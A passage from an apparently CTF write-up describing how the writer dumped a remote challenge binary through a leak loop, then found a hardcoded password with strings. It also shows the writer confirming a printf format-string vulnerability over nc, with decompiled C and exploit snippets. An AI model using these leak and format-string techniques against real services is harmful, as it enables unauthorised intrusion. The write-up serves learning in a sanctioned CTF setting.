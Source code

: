 ```python
        log.info('leaking from %d' % written)
        try: data = leakfrom(written)
        except EOFError: continue
        written += len(data)
        f.write(data)
        f.flush()
```
Leaving this program running, I left to do some [other challenges](if_you_see_this_url___i_forgot_to_change_this_link). Once the downloaded data matched (around) the size of `./chall`, the file was essentially valid for analysis:
```sh
$ file secret
secret: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, stripped
```
## `secret`
```
$ checksec secret
[*] '/secret'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Unlike the previous binary, stack canaries and PIE are disabled.
```
In the secret binary, I spy these `strings`:
$ strings secret
...
GumaTurbo123!
Access granted! Filters disabled!
Check out port 14712
...
```
It looks like `GumaTurbo123!` is a password for the service at 14712 (I tried putting it as a password for the original service at port 2006 too — no dice). Let's try that.
```sh
$ nc challs.xmas.htsp.ro 14712
GumaTurbo123!
Access granted! Filters disabled!
Check out port 14712
%p
0x7ffe39c01c60
```
Although I've not proven anything yet, this service _probably_ provides an unrestricted `printf()` call.

The code within `secret` `main()` was a little bit broken in transmission, but after patching a few bytes, I'm able to verify that claim:
```c
void main() {
  char s[264]; // [rsp+0h] [rbp-110h] BYREF
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  fgets(s, 255, stdin);
  if ( memcmp(s, "GumaTurbo123!", 0xFuLL) )
    exit(0);
  puts("Access granted! Filters disabled!");
  puts("Check out port 14712");
  fflush(stdout);
  fgets(s, 255, stdin);
  printf(s);
  exit(0);
```